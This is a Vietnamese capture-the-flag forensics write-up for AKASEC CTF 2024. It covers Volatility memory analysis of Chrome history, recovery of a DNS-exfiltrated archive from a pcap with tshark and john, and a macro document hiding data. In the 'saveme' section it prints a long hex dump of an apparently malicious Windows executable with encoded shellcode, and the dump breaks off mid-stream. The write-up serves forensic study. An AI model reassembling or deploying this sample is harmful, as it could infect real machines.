# AKASEC CTF 2024
### I. Portugal.
- CHall này cho mình 1 file mem thế là mình check pslist thì thấy nó có khá nhiều process `chrome.exe` , nên là mình kiếm file history của chrome và dump nó về.

```
$ python3 vol.py -f ~/Desktop/sharedfolder/AkasecCTF/Portugal/memdump1.mem windows.pslist
Volatility 3 Framework 2.7.0
Progress:  100.00               PDB scanning finished                        
PID     PPID    ImageFileName   Offset(V)       Threads Handles SessionId       Wow64   CreateTime      ExitTime        File output

4       0       System  0x8453eb40      110     -       N/A     False   2024-05-28 10:35:34.000000      N/A     Disabled
276     4       smss.exe        0x89897040      3       -       N/A     False   2024-05-28 10:35:34.000000      N/A     Disabled
352     340     csrss.exe       0x89875c40      10      -       0       False   2024-05-28 10:35:34.000000      N/A     Disabled
412     340     wininit.exe     0x8f264c40      5       -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
420     404     csrss.exe       0x8f274c40      13      -       1       False   2024-05-28 10:35:35.000000      N/A     Disabled
464     404     winlogon.exe    0x8f289c40      7       -       1       False   2024-05-28 10:35:35.000000      N/A     Disabled
504     412     services.exe    0x899dda40      18      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
512     412     lsass.exe       0x8f2af040      11      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
596     504     svchost.exe     0x8f330040      37      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
644     504     svchost.exe     0x8f33f500      15      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
720     464     dwm.exe 0x8f369040      13      -       1       False   2024-05-28 10:35:35.000000      N/A     Disabled
836     504     svchost.exe     0x8f3bfb00      55      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
848     504     svchost.exe     0x8f860300      29      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
880     504     svchost.exe     0x8f9857c0      24      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
1004    504     svchost.exe     0x84539880      25      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
1020    504     svchost.exe     0x845b0840      15      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
1036    504     svchost.exe     0x845da040      38      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
1196    504     svchost.exe     0x845bb600      26      -       0       False   2024-05-28 10:35:35.000000      N/A     Disabled
1296    504     spoolsv.exe     0x8f8f0040      7       -       0       False   2024-05-28 10:35:36.000000      N/A     Disabled
1476    504     svchost.exe     0x921630c0      13      -       0       False   2024-05-28 10:35:36.000000      N/A     Disabled
1712    504     MsMpEng.exe     0x984514c0      26      -       0       False   2024-05-28 10:35:36.000000      N/A     Disabled
1720    504     svchost.exe     0x98453c40      10      -       0       False   2024-05-28 10:35:36.000000      N/A     Disabled
1180    836     sihost.exe      0x984e4580      17      -       1       False   2024-05-28 10:35:37.000000      N/A     Disabled
2140    836     taskeng.exe     0x98473a00      7       -       0       False   2024-05-28 10:35:37.000000      N/A     Disabled
2160    464     userinit.exe    0x9a0b2040      0       -       1       False   2024-05-28 10:35:37.000000      2024-05-28 10:36:04.000000      Disabled
2228    2160    explorer.exe    0x87a0ec40      64      -       1       False   2024-05-28 10:35:37.000000      N/A     Disabled
2488    596     RuntimeBroker.  0x9d62f900      8       -       1       False   2024-05-28 10:35:38.000000      N/A     Disabled
2536    836     taskhostw.exe   0x9d632040      9       -       1       False   2024-05-28 10:35:38.000000      N/A     Disabled
2620    1020    dasHost.exe     0x9d6cb8c0      18      -       0       False   2024-05-28 10:35:40.000000      N/A     Disabled
2832    504     SearchIndexer.  0x8144e040      15      -       0       False   2024-05-28 10:35:41.000000      N/A     Disabled
2924    504     NisSrv.exe      0x92185040      9       -       0       False   2024-05-28 10:35:41.000000      N/A     Disabled
3180    596     SkypeHost.exe   0x8147ac40      7       -       1       False   2024-05-28 10:35:42.000000      N/A     Disabled
3328    596     WmiPrvSE.exe    0x9d60e9c0      10      -       0       False   2024-05-28 10:35:43.000000      N/A     Disabled
3464    596     ShellExperienc  0x8153c580      27      -       1       False   2024-05-28 10:35:44.000000      N/A     Disabled
3572    596     SearchUI.exe    0x81583c40      37      -       1       False   2024-05-28 10:35:44.000000      N/A     Disabled
3780    596     dllhost.exe     0x88fa7980      9       -       1       False   2024-05-28 10:35:44.000000      N/A     Disabled
4088    2832    SearchProtocol  0xa2e4a040      7       -       1       False   2024-05-28 10:35:46.000000      N/A     Disabled
1596    2832    SearchFilterHo  0x985745c0      6       -       0       False   2024-05-28 10:35:46.000000      N/A     Disabled
1740    2832    SearchProtocol  0x9a1e8940      7       -       0       False   2024-05-28 10:35:47.000000      N/A     Disabled
3980    1004    audiodg.exe     0x81438640      9       -       0       False   2024-05-28 10:35:54.000000      N/A     Disabled
800     2228    FTK Imager.exe  0x8f213c00      22      -       1       False   2024-05-28 10:35:55.000000      N/A     Disabled
728     2228    OneDrive.exe    0xa2e47c40      22      -       1       False   2024-05-28 10:35:55.000000      N/A     Disabled
1240    2228    chrome.exe      0x9d7d7c40      40      -       1       False   2024-05-28 10:35:56.000000      N/A     Disabled
1272    1240    chrome.exe      0xa2ec2840      8       -       1       False   2024-05-28 10:35:56.000000      N/A     Disabled
2316    1240    chrome.exe      0x9d787340      14      -       1       False   2024-05-28 10:35:58.000000      N/A     Disabled
4104    1240    chrome.exe      0x89928480      16      -       1       False   2024-05-28 10:35:58.000000      N/A     Disabled
4112    1240    chrome.exe      0x9d7df900      7       -       1       False   2024-05-28 10:35:58.000000      N/A     Disabled
4752    1240    chrome.exe      0x9d7df300      7       -       1       False   2024-05-28 10:36:03.000000      N/A     Disabled
4900    1240    chrome.exe      0x815e66c0      15      -       1       False   2024-05-28 10:36:15.000000      N/A     Disabled
4968    1240    chrome.exe      0x9d63e040      15      -       1       False   2024-05-28 10:36:16.000000      N/A     Disabled
5284    596     dllhost.exe     0x8159cc40      1       -       1       False   2024-05-28 10:36:31.000000      N/A     Disabled
```
```
$ python3 vol.py -f ~/Desktop/sharedfolder/AkasecCTF/Portugal/memdump1.mem windows.filescan | grep "History"
0x81595680 100.0\Users\d33znu75\AppData\Local\Google\Chrome\User Data\Default\History   128
0x9845ab30      \ProgramData\Microsoft\Windows Defender\Scans\History\CacheManager\MpScanCache-0.bin    128
```
- Sau khi dump nó về ta có thể mở nó bằng `AutoSpy` lịch sử duyệt web ty nhiên ta có thể strings cho nó lẹ , strings thì có lun flag.
```
$ strings file.0x81595680.0x98570f60.DataSectionObject.History.dat 
--- SNIP ---
18- h_)
21- 0r(
19- h1'
20- st&
22- y}%
17- rc$
look !! its here yay*
16- 34
15- _s
14- m3
13- r0
12- ch
11- r_
10- f0
9- Y_
8- 1T
7- 1L
6- 4T
5- 0L
4- {V
3- EC
2- AS
1- AK
```

*`FLAG: AKASEC{V0L4T1L1TY_f0r_chr0m3_s34rch_h1st0ry}`*

### II. Sussy
- Chall này cho mình 1 file `.pcap` ngay khi xem bên trong thì mình thấy domain name rất lạ nó khá là giống hex nên mình có lấy packet đầu tiên đi decode thử xem nó có là header của file nào không.


- Thì nó là header của file `.7z` thế nên mình đã xài tshark để extract đữ liệu đó ra.
```
tshark -r packet.pcapng -Y 'dns.qry.name matches "akasec"' -T fields -e dns.qry.name | uniq | awk '{gsub(/.akasec.ma/, "")}1' | xxd -r -p > flag.7z
```
- Tuy nhiên khi mở ra thì nó cần phải có pass nên mình xài john để crack pass.

- Bên trong nó có 1 file pdf nữa và nó vẫn cần pass tiếp nên là mình lại xài john típ.

- Mở ra thì cóa flag.


*`FLAG: AKASEC{PC4P_DNS_3xf1ltr4t10n_D0n3!!}`*

### III. saveme.

- Chall này cho mình 1 đống ảnh và 1 file `.docm` , mình check macros thì chả có gì cả nhưng mà có đoạn dữu liệu này khá lạ và quen thuộc.
- Khi mở bằng `word` và `WPS` 1 cái nó hiện lun dữ liệu ẩn 1 cái thì không.


- Ta sẽ được đoạn dữ liệu ẩn và khi loại bỏ ký tự `&H` thì đọc đoạn đầu nó có header khá giống 1 file `.exe` ở dạng hex.
```

&H4D&H5A&H90&H00&H03&H00&H00&H00&H04&H00&H00&H00&HFF&HFF&H00&H00&HB8&H00&H00&H00&H00&H00&H00&H00&H40&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H80&H00&H00&H00&H0E&H1F&HBA&H0E&H00&HB4&H09&HCD&H21&HB8&H01&H4C&HCD&H21&H54&H68&H69&H73&H20&H70&H72&H6F&H67&H72&H61&H6D&H20&H63&H61&H6E&H6E&H6F&H74&H20&H62&H65&H20&H72&H75&H6E&H20&H69&H6E&H20&H44&H4F&H53&H20&H6D&H6F&H64&H65&H2E&H0D&H0D&H0A&H24&H00&H00&H00&H00&H00&H00&H00&H50&H45&H00&H00&H4C&H01&H03&H00&H33&H5F&HEC&H22&H00&H00&H00&H00&H00&H00&H00&H00&HE0&H00&H0F&H03&H0B&H01&H02&H38&H00&H02&H00&H00&H00&H0E&H00&H00&H00&H00&H00&H00&H00&H10&H00&H00&H00&H10&H00&H00&H00&H20&H00&H00&H00&H00&H40&H00&H00&H10&H00&H00&H00&H02&H00&H00&H04&H00&H00&H00&H01&H00&H00&H00&H04&H00&H00&H00&H00&H00&H00&H00&H00&H40&H00&H00&H00&H02&H00&H00&H46&H3A&H00&H00&H02&H00&H00&H00&H00&H00&H20&H00&H00&H10&H00&H00&H00&H00&H10&H00&H00&H10&H00&H00&H00&H00&H00&H00&H10&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H30&H00&H00&H64&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H2E&H74&H65&H78&H74&H00&H00&H00&H28&H00&H00&H00&H00&H10&H00&H00&H00&H02&H00&H00&H00&H02&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H20&H00&H30&H60&H2E&H64&H61&H74&H61&H00&H00&H00&H90&H0A&H00&H00&H00&H20&H00&H00&H00&H0C&H00&H00&H00&H04&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H20&H00&H30&HE0&H2E&H69&H64&H61&H74&H61&H00&H00&H64&H00&H00&H00&H00&H30&H00&H00&H00&H02&H00&H00&H00&H10&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H40&H00&H30&HC0&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&HB8&H00&H20&H40&H00&HFF&HE0&H90&HFF&H25&H38&H30&H40&H00&H90&H90&H00&H00&H00&H00&H00&H00&H00&H00&HFF&HFF&HFF&HFF&H00&H00&H00&H00&HFF&HFF&HFF&HFF&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&H00&HDA&HD9&HB8&H8A&H0C&H44&H06&HD9&H74&H24&HF4&H5D&H29&HC9&H66&HB9&H04&H02&H83&HED&HFC&H31&H45&H16&H03&H45&H9C&HEE&HB1&H37&H60&H86&H31&H28&H20&H57&H26&HB7&H90&H33&H2F&H67&H2C&H53&HAD&H68&HCC&HA4&HD2&HE1&H29&H95&HD2&H96&H3A&H86&HE2&HDD&H6E&H2B&H88&HB0&H9A&HB8&HFC&H1C&HAD&H09&H4A&H7B&H80&H8A&HE7&HBF&H83&H08&HFA&H93&H63&H30&H35&HE6&H62&H75&H28&H0B&H36&H2E&H26&HBE&HA6&H5B&H72&H03&H4D&H17&H92&H03&HB2&HE0&H95&H22&H65&H7A&HCC&HE4&H84&HAF&H64&HAD&H9E&HAC&H41&H67&H15&H06&H3D&H76&HFF&H56&HBE&HD5&H3E&H57&H4D&H27&H07&H50&HAE&H52&H71&HA2&H53&H65&H46&HD8&H8F&HE0&H5C&H7A&H5B&H52&HB8&H7A&H88&H05&H4B&H70&H65&H41&H13&H95&H78&H86&H28&HA1&HF1&H29&HFE&H23&H41&H0E&HDA&H68&H11&H2F&H7B&HD5&HF4&H50&H9B&HB6&HA9&HF4&HD0&H5B&HBD&H84&HBB&H31&H40&H1A&HC6&H74&H42&H24&HC8&H28&H2B&H15&H43&HA7&H2C&HAA&H86&H83&HC3&HE0&H8A&HA2&H4B&HAD&H5F&HF7&H11&H4E&H8A&H34&H2C&HCD&H3E&HC5&HCB&HCD&H4B&HC0&H90&H49&HA0&HB8&H89&H3F&HC6&H6F&HA9&H15&HB6&HE0&H22&HF3&H44&H8C&HA4&H9E&HC4&H1E&H15&H43&H5D&H9A&H0D&HAB&H13&H41&HD9&H86&HE4&HEB&H4F&HBC&H99&H9F&HAF&H70&H38&H14&H9E&HFB&HA7&HB6&H9D&H6F&H4E&H52&H4C&H04&HB9&HB2&HF4&H8B&HCE&HA4&H98&H3C&H51&H5D&H32&HB7&HE3&HF4&HDA&H50&H2B&H20&H4B&HEB&H5F&H5E&HB1&H3C&HB0&HAC&HF5&H6C&HF6&HE1&HDB&H41&H35&H32&H0A&H93&H0E&H0A&H68&HEB&H40&H52&HBC&H24&HD2&HC3&HD2&H49&H7D&H69&H5C&HCF&HF3&H14&H8C&H6A&H8B&HB3&HF7&H5D&H49&H3C&H2A&H9C&HC4&H6E&HDB&H5A&H42&H3E&H18&H51&H34&H2C&H7B&H31&H3E&H2D&H2A&H68&H2D&H30&HE3&H20&HC4&H7C&H1C&H71&H29&H4E&HE2&H34&H93&H08&H73&H69&HE6&HE8&H06&H3C&H3F&HE8&H75&HCF&H22&HFE&H56&HBB&HAF&H36&HE3&H9F&HD6&H3C&H72&HE8&HBE&HE9&HA8&H42&H00&HEB&HD8&H3F&H43&H89&H67&H0E&H78&HC3&H78&HBC&H4B&H32&H3F&HB0&H13&H07&H10&H3A&H73&HE0&H80&H70&H87&H9A&H71&HD7&HFC&HE8&HB6&HCD&H12&H07&H5E&H7C&H5C&H88&H3D&HAC&HFB&HAE&HF4&H5F&HDB&H9B&H28&HD8&H1A&H2C&H84&H33&H80&H98&H2F&H06&HB5&H04&H93&HFD&H7C&H92&H9A&H13&H65&H38&HF7&HBB&H0B&HC4&H3C&HE2&HD0&H8E&HD2&H20&H9D&H13&H7B&HA0&HE2&HE9&HDD&HC4&H9A&H34&H0A&HEB&HB5&H8D&H4D&H53&H5C&HC4&H33&H27&H1F&H82&H81&HD2&HF2&H12&HB4&HA3&H70&H51&HD0&HCC&HB6&HAD&H20&HFF&HC3&H15&H7C&H02&H50&H92&H54&H50&H5C&H6C&HD6&H45&HC7&H87&HCF&HF5&H06&H3C&H61&H71&HD5&HB4&HDB&H9E&H9F&HF8&HAB&HAE&H25&H8F&H56&HE6&HC1&H92&HA9&H7E&H13&HD8&H57&H3F&H17&H80&H05&HAE&H8C&HFE&H25&H77&H07&HAB&H11&HEE&H30&HE7&HA9&H63&HB6&H05&H5D&HDC&HB5&H1D&H77&H0D&HC1&HEF&H90&HCE&HB8&H9B&H06&H6F&HDE&HE5&HC7&H1C&HAA&H42&HAF&H28&H5E&H03&H63&H9C&H87&H89&H88&HB3&H31&HEF&H89&H45&HDF&H78&H3D&H3E&HDF&HC8&HAD&H30&H49&HBB&HEF&H5D&HA6&H79&H92&HC5&H7A&HE1&HE2&H6F&HE9&HC8&H95&H9A&H0E&H01&H73&H2A&H78&H47&H82&H0B&HCF&H47&H04&HDD&H3A&HDC&H9C&HBB&HDB&HC4&H83&HBB&H8B&H0E&H95&H34&H1B&HCC&H7B&H99&HD0&H48&H5E&H04&HEC&H75&H3A&HBE&HC8&H8F&HB5&H55&H3F&H98&H20&H78&H85&HED&HA7&H21&H53&H29&HAB&H42&H0E&HC8&H63&H52&HD3&H1F&H2E&HB8&H8D&H89&H8E&HB1&HAA&H02&H01&H8E&H76&H35&H81&H63&H54&H2E&H2F&H69&H43&H74&H11&H2D&HC9&H34&H2C&H6A&H04&H1F&H8C&H71&HB9&HB8&H6E&HCA&HC0&HE8&H01&HFE&H7B&H82&H21&H74&H38&H57&HBC&H20&H45&H15&HB4&H6D&HF4&HE6&H5D&HA1&H59&H78&H4B&H80&HE0&HBC&HA2&HDA&H97&HF0&HE7&H28&HA9&H78&H74&H69&H20&H2D&H4C&H59&H44&H7C&H0F&H23&HD7&HB0&H11&H03&HD7&H65&HE8&HAF&HC8&HA7&H09&HD5&H48&H61&H60&H55&HC2&H0D&HD6&HE5&HBA&H4E&H21&H70&H51&H6C&H29&HD7&H08&HC0&HD0&H9E&HC2&H64&HB3&H54&H29&H77&H15&H24&HAA&HBB&H39&HC1&HE3&H41&H8B&H5F&HE7&H1F&H27&HC6&H57&H69&H2F&H64&HE7&HEC&H04&H1F&HF2&H55&H71&HA3&HAE&H0E&H0B&H28&H16&H5B&H80&HF4&HE1&H49&HD3&HE8&H5C&HC2&HF8&HFA&H24&H7B&H6A&HB4&HCA&H5C&HA1&H17&H02&HB0&HBE&H42&HA5&H78&H47&H60&H7E&H3A&HCF&H6B&H70&H3A&H5C&HC0&H1B&H2A&HED&H54&H34&HF1&HE7&H58&H59&H6F&HAC&HDE&HC2&H88&H18&H5C&H6C&H1B&H3A&H3C&H87&H97&H82&HF5&H2C&H9F&H1B&HCE&HE7&HF2&HF0&HA0&H78&H33&H8A&HF0&HEC&HB6&H8E&H69&H77&H19&HA1&H03&H3A&H48&H79&H9D&H98&H9E&HF4&H2D&H25&H33&HD4&HEA&HCA&H9D&H2A&H0A&HDD&H5D&HA3&HA6&HD1&HC6&HFE&HC8&HAD&H87&H3A&H61&H70&HA3&H99&H73&HB0&HDA&HD4&H7E&H6A&H0C&H51&HA3&H6B&H83&HC0&HDE&H26&H9E&HC6&HF0&H9E&H54&H8E&H64&H0C&H16&H5E&H80&H10&H6E&H79&HEC&H58&H58&H7F&HEC&HBB&HF7&H71&H87&H17&H3C&H97&H52&H81&H50&HE5&H15&HA3&H07&H99
&HDE&HC5&HDD&H3C&H49&H9D&HE2&HE6&HCE&HCF&H11&H3E&HC3&H92&H26&HB3&HD7&H58&H46&H28&HEE&HAF&H84&HB1&H8A&H56&HD3&H7D&H90&H59&HE6&H18&H99&H96&HD0&HA6&H70&HA3&H39&H55&H33&H91&HFA&H14&H53&HA7&HD9&H81&H63&H1C&HA1&H37&H51&H78&H0C&HBD&HCD&H8B&H6D&HF7&H44&HEF&H7B&H42&HA7&HA7&H2E&H48&H1D&HF8&H22&H65&H2D&H85&H54&H86&HEC&H38&H04&H33&H74&HE9&H53&H28&H48&HFF&HE8&H30&H2F&HD6&HD3&HAD&HF7&H52&HFF&HE1&HBC&H69&HD6&HA0&HE1&HC1&HDD&HFE&H23&HE7&H49&HDA&H3A&HC6&H1A&H99&H87&HD9&H45&HC9&H63&HD4&H25&H6E&H6C&H13&HBA&H29&H50&HD2&HC9&HFA&HEF&H5A&H45&H31&HB8&H52&HEC&H6F&H8A&H9E&HEA&H06&HC3&H09&H71&H46&H43&HBE&HA5&H15&HE5&HEC&H12&HA6&HBE&H53&H3A&H8E&H5F&H53&HE0&HC7&H59&HDC&H7F&HCB&H6D&HB4&H0C&H71&H82&H60&H2C&H80&H8D&H95&HDF&HF5&HA8&H9D&HE0&HE9&HCE&HCF&HCD&H8D&H36&H52&H70&HCE&H97&H7C&H59&HD4&H70&HB5&H11&HEB&HA7&H60&HB4&H6B&H89&HB7&HE8&HAF&H6A&H7F&HF2&H9A&H2F&H5B&HDD&HE5&HCD&HAF&H0E&H8D&H6F&HBE&H91&H66&HFD&H87&HE2&H44&H32&HC0&H8E&H27&HC7&H4E&H82&H91&HD9&HEE&H98&H9A&H01&H38&HA9&H23&H6D&HA2&H0E&HB3&HEE&H5B&H0C&HA8&HC5&H69&HE7&H69&H0E&H0C&H4E&H7C&H7D&H64&HA9&HE5&H2C&H38&H79&H7B&H64&H02&H3A&H70&H26&H65&H36&H53&HD1&HD6&HFE&HD9&H47&H12&HDA&HC1&HEB&HE8&H31&H99&H69&HC1&H55&H23&H52&H14&HFF&HA4&HFB&HE0&HD9&HD6&HED&HDA&HCB&H3D&HB1&HC8&HEB&H21&HCA&H91&HD3&HDB&HE5&H77&H80&HD9&H90&HEB&H99&H4B&H14&HCC&H18&H5A&H90&H7C&HD3&H41&H2F&H2B&H6F&HFD&H24&H8A&H78&H8A&HEA&HD8&H3E&HFF&HA0&HD7&HC2&H9A&H48&H2B&H79&H46&HCE&H66&H7B&H41&HD2&H8A&H8C&H9D&H30&H07&HA7&HA0&H77&HC4&H27&HF0&HBD&H9B&H70&H53&H2D&HF9&H7D&H18&H9C&H91&H1E&H8A&H0B&H32&H1A&H73&H3F&H11&H80&H92&HD5&H9E&HF2&HE4&H25&HB7&H70&H99&H60&HFB&H61&H9F&H1A&HA5&H3B&H28&H13&H3E&HDF&HF9&HBB&H90&HDE&H98&H95&H3F&H0F&H1D&HC6&H73&H0D&H00&H3A&HF0&H0E&H97&HB2&H98&HF7&H4F&H69&HD8&H3E&H66&HD6&HEC&H00&H8A&H0F&H5D&H33&HCD&H80&HA9&HDA&HFA&HEE&HD4&HB9&H48&H98&HB4&HFC&H5E&HF1&HFC&H2B&H3C&H05&H38&HA0&HA9&H92&H30&HA4&HB6&H44&H38&H35&HC9&HDE&HC6&HAB&H8E&H0A&H31&H1C&HFC&H25&HC9&HCE&HDF&HB9&H77&H1F&HD6&H74&H74&H08&H37&H30&HD1&HF0&HA9&H82&H1B&HFB&H62&H4C&H6A&H55&H77&HDE&H7B&HE7&H1A&H61&H9F&HEF&HD9&HF5&H06&H7F&H89&H88&HDE&H9D&HFF&H7B&HDF&H4C&H37&HA0&HE9&H3E&HBA&H7E&H78&H6B&HF1&H87&HEC&H2D&H49&H30&HA5&H91&HFE&H32&HF6&H6C&H1D&H79&HB1&H87&H96&H8C&HA1&H72&HB7&H86&HE4&HB6&H0E&H1D&HB0&H75&H01&HF9&H20&H98&H90&H8B&H80&H5B&H90&H7E&HEA&HE8&HA4&H4D&HCC&H36&H77&HB4&HB9&H77&HBC&H0C&HCF&HEE&H11&H2A&HF1&H3C&H42&H8E&HDB&H1A&H0A&H5A&H33&HC5&H16&H8D&H3D&H64&H6A&HF7&HEB&HB0&H63&H09&H59&H59&H5F&HAF&HE4&H69&H72&HEE&HD2&H4C&HF9&HB5&HAD&H7F&H0A&H06&HDF&HF3&H0E&H14&H96&H9C&H2A&H52&HF1&H66&HB9&H0F&HF4&HF0&H4C&H1B&H5D&HAA&HE7&H7C&H66&H8A&H95&HB4&HFE&H59&H05&HEF&H8D&HAC&H65&HBC&H7D&H04&HB8&HDD&H56&H3D&H2E&HB9&H45&H10&H82&HD9&HC2&HF3&H5C&H47&H8E&H15&H0D&HA4&H21&HFB&HC5&H63&H6B&H33&H8D&HFE&H32&HDC&H41&H8C&H96&HDE&H7B&H85&H66&HCB&H68&H42&HFF&H4A&HC8&HF7&H4D&H2F&HB9&H77&H7F&HA5&H9C&HA2&H9D&HCA&H96&HFE&H99&HF3&H5C&H0B&H39&H3B&H56&HC6&HA0&H29&HBB&HFB&HE9&HD7&HD6&HCD&H52&H00&H25&H0F&H0C&H5C&H82&H38&H9A&H67&H35&H0F&H2E&H1D&H5F&HA1&H6D&H42&HD6&H5E&H26&HA9&HFA&H62&H60&HEE&H18&H03&HC5&H80&HF7&HA9&HD7&H6A&HB9&H55&H21&H64&H9D&H3F&HA3&HAE&H63&H16&H2F&H18&HAD&H33&H34&H56&H76&H2E&H9D&HC9&HE8&HBC&H84&H4A&H2F&H53&HD6&H87&H8B&H3D&H33&H93&HE0&H0A&H88&H42&HB8&HC6&HE0&HF3&H4C&H13&HB5&HEC&H74&HB8&H36&H32&H66&HA7&H1F&HDE&H27&H8D&HEF&HA7&HBD&H55&H79&HCA&H2A&H91&HD8&H83&H0C&H39&H94&H88&H8D&HCB&H6D&H26&H68&H48&H6D&HF7&H3F&HA9&H6F&HB4&HFC&H84&HE5&HD7&HD7&HDE&H98&H71&HC9&HEF&H8B&H8A&H57&H32&H64&HF1&HE0&H48&H6D&H91&H85&HE0&H77&HD5&H79&H9B&H6F&HFA&H8F&HC1&H04&H87&H96&HEE&HE2&H4D&HEE&HB1&H48&HBF&H8E&HBE&H6A&H65&H24&HBB&H33&HEF&H3C&H46&H25&HCE&H55&H2E&H66&H41&H8F&H7D&HD9&H11&HC3&H33&H8C&H9F&H88&H4A&H91&H15&HB1&H1C&H57&HCF&H9F&H09&H60&H5B&H53&H26&H42&H72&H14&H40&H3A&HF5&HBE&H5F&H0E&HD9&H51&H59&H33&H7A&H77&H98&HC8&H27&H35&H0B&HB2&H4A&HCE&H82&H27&HF3&H76&HC4&HA5&H7E&HAD&H9B&HCD&H15&H49&H04&HC6&H4B&H32&H75&H13&H19&H72&H4E&H93&HD8&HDF&H0D&H53&H67&H40&HCC&HB9&HAA&H94&H1D&H42&H6E&HCB&H21&H1E&HD5&H07&H7A&H68&HDB&HB1&HED&H62&H64&H8B&HE5&HB8&HE4&H65&H93&H4A&H0D&HD8&H0C&H61&H2D&H2B&H60&H40&HEB&H11&HE6&H96&H23&HC8&H4E&H71&HDC&HB7&H03&HD6&H08&HE5&HFC&H18&HBE&H97&H47&H08&H47&HDF&H76&H5E&HB3&H47&H49&HFF&H28&H1E&H11&H9B&H3E&H42&H76&H84&HD2&H13&HD5&HC8&HA9&H97&HF8&HAC&H55&H26&H51&H72&HF3&H64&HB8&H13&H7D&HE8&HBC&H73&HBC&HD4&H2F&HCE&HA3&H58&H64&H9E&HAD&H3B&HB1&H2D&HB8&H94&HE5&H42&H5B&HD6&HAB&H08&HE6&H66&HEA&HB0&H3E&H30&H3C&HF1&H4B&H32&HED&HFD&H1D&H27&HB8&HDE&H83&H7B&H11&H9E&HE0&H7E&HAA&H58&HAC&H96&H82&H93&H62&HB1&HB3&HE1&HB7&H46&H21&H23&H4F&HDC&H26&HC7&HDD&HF0&H66&H43&H23&H62&H77&H11&H09&H49&HFB&H93&H5C&H5E&H8E&HA5&HB2&H95&HFF&HA2&HDA&HF1&H71&H3B&HDD&H5D&HB3&H46&H1E&H41&HBE&HF0&H6B&H6E&H73&H3C&H9C&H54&H07&H8A&H71&H61&H5B&H30&H28&H75&H82&HF7&H03&H2B&H2E&H9D&HFF&H2D&HED&HF7&H35&H1F&HC5&H88&H73&H26&H7A&HD1&H58&HDE&H76&H1C&HC2&HB3&H89&H81&H8E&HD1&HA2&H6B&HAD&HF1&H42&HE2&H76&H86&H0E&HB0&H6E&H17&H12&H3F&H51&H55&H42&